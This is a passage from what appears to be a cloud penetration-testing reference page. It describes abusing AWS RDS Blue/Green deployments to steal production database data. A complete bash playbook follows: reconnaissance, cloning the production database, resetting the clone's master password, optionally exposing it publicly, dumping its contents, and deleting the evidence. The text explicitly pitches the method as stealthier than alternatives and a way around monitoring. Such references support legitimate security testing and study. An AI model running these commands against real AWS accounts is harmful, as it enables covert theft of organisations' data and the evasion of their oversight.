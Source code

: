 Example evidence (MySQL):
- Replica DB status: `available`, read replication: `replicating`
- Successful connection with new password and `@@read_only=1` confirming read-only replica access.

### `rds:CreateBlueGreenDeployment`, `rds:ModifyDBInstance`

Abuse RDS Blue/Green to clone a production DB into a continuously replicated, read‑only green environment. Then reset the green master credentials to access the data without touching the blue (prod) instance. This is stealthier than snapshot sharing and often bypasses monitoring focused only on the source.

```bash
# 1) Recon – find eligible source (non‑Aurora MySQL/PostgreSQL in the same account)
aws rds describe-db-instances \
  --query 'DBInstances[*].[DBInstanceIdentifier,DBInstanceArn,Engine,EngineVersion,DBSubnetGroup.DBSubnetGroupName,PubliclyAccessible]'

# Ensure: automated backups enabled on source (BackupRetentionPeriod > 0), no RDS Proxy, supported engine/version

# 2) Create Blue/Green deployment (replicates blue->green continuously)
aws rds create-blue-green-deployment \
  --blue-green-deployment-name ht-bgd-attack \
  --source <BLUE_DB_ARN> \
  # Optional to upgrade: --target-engine-version <same-or-higher-compatible>

# Wait until deployment Status becomes AVAILABLE, then note the green DB id
aws rds describe-blue-green-deployments \
  --blue-green-deployment-identifier <BGD_ID> \
  --query 'BlueGreenDeployments[0].SwitchoverDetails[0].TargetMember'

# Typical green id: <blue>-green-XXXX

# 3) Reset the green master password (does not affect blue)
aws rds modify-db-instance \
  --db-instance-identifier <GREEN_DB_ID> \
  --master-user-password 'Gr33n!Exfil#1' \
  --apply-immediately

# Optional: expose the green for direct access (attach an SG that allows the DB port)
aws rds modify-db-instance \
  --db-instance-identifier <GREEN_DB_ID> \
  --publicly-accessible \
  --vpc-security-group-ids <SG_ALLOWING_DB_PORT> \
  --apply-immediately

# 4) Connect to the green endpoint and query/exfiltrate (green is read‑only)
aws rds describe-db-instances \
  --db-instance-identifier <GREEN_DB_ID> \
  --query 'DBInstances[0].Endpoint.Address' --output text

# Then connect with the master username and the new password and run SELECT/dumps
# e.g. MySQL: mysql -h <endpoint> -u <master_user> -p'Gr33n!Exfil#1'

# 5) Cleanup – remove blue/green and the green resources
aws rds delete-blue-green-deployment \
  --blue-green-deployment-identifier <BGD_ID> \
  --delete-target true
```
